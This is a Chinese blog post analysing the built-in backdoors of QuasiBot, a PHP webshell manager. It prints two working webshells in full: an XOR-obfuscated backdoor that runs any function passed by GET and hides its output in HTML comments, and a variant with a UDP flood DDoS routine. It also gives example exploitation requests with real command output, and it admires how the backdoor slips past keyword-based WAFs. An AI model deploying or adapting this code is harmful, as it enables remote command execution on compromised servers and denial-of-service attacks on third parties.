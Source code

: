 ```yaml
---
layout: post
title: 批量 Webshell 管理工具 QuasiBot 之后门代码分析
tags: [web,secrity]
---
```


### 一、前言

最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台- `QuasiBot` 。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析： `非DDoS` 版 和 `DDoS` 版。

### 二、分析

#### 1. 非DDoS版

首先给出``非DDoS``版本的后门代码：

```php
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
```

格式化一下，显得比较清晰：

```php
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
```

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个``if...elseif...``构成。

可以看到 `elseif($_GET['___'])` 直接运行从Get请求过来的参数 `___` 的函数。例如这里后门地址为： `http://www.virtual.com/ma.php` ，那么构造如下请求就会让后门代码去执行 `phpinfo()` 函数来获取系统的相关信息。

    http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个 `if($_GET['_'])` 部分，当有参数 `__` 传入时进入条件：

```php
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
```

根据代码可以看出，QuasiBot将通过后门执行的输出都放到 `response` 的注释 `<!-- ... -->` 里去了，这里有一定的隐藏效果。注意这里 `print "<!--".$_="{:|";` 这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个 `"GET"` 字符串：

    $_=($_^"<").($_^">").($_^"/");

`$_^"<"` 会将 $_ 变量的第一个字符的ascii码与 "<" 的ascii码 进行异或，也就是 `123` ("{"的ascii码) 与 `60` ("<"的ascii码)进行异或：

    123^60 ==> 71 ('G')

得到ascii码 `71` 也就是字符 `"G"` ，通过相同方法构造出 `"E"` 和 `"T"` ，然后将其连接构成字符串 `"GET"` 。

然后根据php中的一个变量引用特性，以 `${'_GET'}["__"]` 作为参数调用函数 `${'_GET'}["_"]()` 。

这里的函数执行涉及到了php中 "动态函数调用"  和 "花括号{}使用" 的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中 `{}` 使用时需要注意的地方。

给出一个简单易懂的例子说明一下 `动态函数调用` ，看下面这段代码 `demo.php` ：

```php
<?php
$func = "demo";
function demo() {
    echo "Demo on!"
}

$func();
?>
```

这里为了方便，直接在终端使用php执行该脚本文件，执行 `php demo.php` 得到输出 `Demo on!` 。

看了这个demo.php再结合 `{}` 的使用就很容易理解后门中的这段代码： `${'_GET'}["__"](${'_GET'}["_"])` 。

写得明显点就是： `$_GET["_"]($_GET["__"])` 。

简单明了的QuasiBot非DDoS后门代码：

```php
<?php
if($_GET['_']) {
    print "<!--{:|";
    $_GET["_"]($_GET["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
```

例如在win下要执行 `system('dir')` ，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

    <!--{:| 驱动器 D 中的卷没有标签。
     卷的序列号是 2EE6-3EE0

     D:\PhpStudy\WWW 的目录

    2014/12/03  21:05    <DIR>          .
    2014/12/03  21:05    <DIR>          ..
    2014/12/03  21:05    <DIR>          discuz
    2014/11/10  22:43    <DIR>          Documentation
    2014/11/22  02:13               431 function.php
    2014/12/04  17:37               226 ma.php
    2014/11/19  22:38    <DIR>          mybb
    2014/11/20  12:53    <DIR>          mybb1
    2014/10/21  17:11    <DIR>          phpMyAdmin
    2014/11/25  23:52    <DIR>          phpMyRecipes
    2014/11/25  14:59    <DIR>          phpok
    2014/11/15  11:36    <DIR>          piwigo
    2014/11/14  14:04    <DIR>          qibomenhu
    2014/11/26  08:55    <DIR>          quasibot
    2014/11/27  11:50    <DIR>          rocboss
    2014/11/21  00:25    <DIR>          sqli
    2014/11/14  15:59    <DIR>          thinksns
    2014/11/10  22:43    <DIR>          Tools
    2014/11/10  22:44    <DIR>          upload
    2014/12/03  19:36               256 upload.php
    2014/11/22  12:54    <DIR>          wordpress
                   3 个文件            913 字节
                  18 个目录 35,217,747,968 可用字节
    {:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

#### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

```php
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
```

格式化一下：

```php
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
    @$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
    $fn0=0;
    $pm1=$_POST['time'];
    $yu2=time();
    $az3=$yu2+$pm1;
    $jd4=$_POST['target'];
    $kb5=gethostbyname($jd4);
    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }
    while(1) {
        $fn0++;
        if(time()>$az3) {
            break;
        }
        $yw8=rand(1,65553);
        $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
        if($vl9) {
            fwrite($vl9,$yf7);
            fclose($vl9);
        }
    }
} elseif($_POST['kill']=='1') {
    exit(0);
}
?>
```

前面部分的参数判断这里就不讲解了，请参照 `非DDoS版` 的分析。直接看DDoS代码部分，这里通过 `$_POST['target']` 来获取目标， `$_POST['time']` 为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造 `65553` 字节的超长数据通过 `udp` 的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造 `65553` 字节的数据：

    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }

随机生成端口号（最大不应该是65535？）：

    $yw8=rand(1,65553);

创建socket并发送数据：

    $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
    if($vl9) {
        fwrite($vl9,$yf7);
        fclose($vl9);
    }

至此 `QuasiBot` 两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（ `非DDoS版` ）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。
